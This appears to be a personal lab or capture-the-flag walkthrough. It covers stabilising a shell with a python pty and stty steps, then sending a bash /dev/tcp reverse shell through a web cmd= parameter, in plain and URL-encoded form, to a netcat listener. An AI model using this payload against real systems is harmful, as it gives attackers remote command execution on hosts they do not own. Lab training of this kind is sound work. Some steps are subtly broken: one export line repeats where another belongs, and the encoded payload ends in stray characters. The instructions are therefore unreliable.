 Now that we have a shell on the box, we want to stabilize our shell. For the most part, stabilizing shells is straightforward by using other utilities like python to help; however, some steps can take longer or change depending on the shell you use. The below instructions will be for bash and ZSH; any other shells or operating systems, you will need to do your research on stabilizing shells within their environment.  

Instructions found throughout this room are inspired by this fantastic blog post, [https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/). All credit for the techniques shown goes to ropnop.  

There are several ways to stabilize a shell; we will be focusing on using python to create a pseudo-terminal and modifying stty options. The steps are the same for all target machines, but they may differ depending on the shell or operating system used on your attacking machine.  

To begin, we will create a pseudo-terminal using python. The command can be found below.  

Syntax: `python -c 'import pty; pty.spawn("/bin/bash")'`

Once we have a pseudo shell, we can pause the terminal and modify stty options to optimize the terminal. Follow the steps below exactly for bash shells.  

1. `stty raw -echo`

2. `fg`

**Note****:** If you're using ZSH, you **must** combine `stty raw -echo;fg`  onto one line, or else your shell will break  

At this point, you will get your pseudo-terminal back, but you may notice that whatever you type does not show up. For the next step, you will need to type blindly.  

3. `reset`

4. `export SHELL=BASH`

For the next two steps, you will need to use the information you got from step 1. 

5. `export SHELL=BASH`

6. `export TERM=<TERMINAL>`

7. `stty rows <num> columns <cols>`


---

# Your job

## Reverse Shell

- Payload is: `/bin/bash -c "bash -i >& /dev/tcp/<Attack_IP>/9001 0>&1"`.
- Encode the payload as URL.
	`%2f%62%69%6e%2f%62%61%73%68%20%2d%63%20%22%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%35%30%2e%37%34%2e%31%36%35%2f%39%30%30%31%20%30%3e%26%31%22yloa`
- Add the payload to the cmd= parameter on the browser (Better on Burp Suite Repeater).

	![[Task 14 - Meterpreter session 1 closed. Reason RUH ROH-20240907132955710.webp]]

## Listener

- On your attacking machine open a netcat listener.

	`nc -lnvp 9001`

- On Repeater click "Send".

	![[Task 14 - Meterpreter session 1 closed. Reason RUH ROH-20240907133230772.webp]]

	Your got a Revers Shell.


**Next step:** [[Task - 15 Docker? I hardly even know her!]]
